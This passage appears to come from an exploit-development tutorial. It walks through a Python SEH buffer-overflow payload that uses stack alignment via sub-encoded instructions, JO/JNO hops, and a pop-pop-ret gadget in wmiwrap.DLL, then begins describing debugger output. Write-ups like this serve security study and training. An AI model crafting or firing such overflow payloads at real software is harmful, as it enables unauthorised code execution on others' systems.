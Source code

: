 ```console
alignment = "\x54" # push esp
alignment += "\x58" # pop eax; (puts the value of ESP into EAX)

# Write these 3 sub values in normal format, since memory address, not instruction to be executed. You do not have to do
# it this way, but I do my calculations in normal format to remind me it is a memory address, when doing hex max. For my
# other operations, I used little endian. If you do all of the calculations in one way, you do not need to flip the sub
# math difference results. This is how I keep things straight
# 384D5555 364D5555 364E5555
alignment += "\x2d\x38\x4d\x55\x55" 	# sub eax, 0x384D5555
alignment += "\x2d\x36\x4d\x55\x55" 	# sub eax, 0x364D5555
alignment += "\x2d\x36\x4e\x55\x55"	# sub eax, 0x364E5555
alignment += "\x50" 		   	# push eax
alignment += "\x5c" 			# pop esp; (puts the value of eax back into esp)

# All together now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
payload += alignment
payload += "\x43" * (5000-len(payload))


print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```

After crashing the application and making our jumps, we arrive at our instructions:

<img src="{{ site.url }}{{ site.baseurl }}/images/20.png" alt="">

We already know what the first three instructions will do. After stepping through those, we arrive at `push esp` and `pop eax`. Stepping through these instructions makes our schema of registers look like the following:
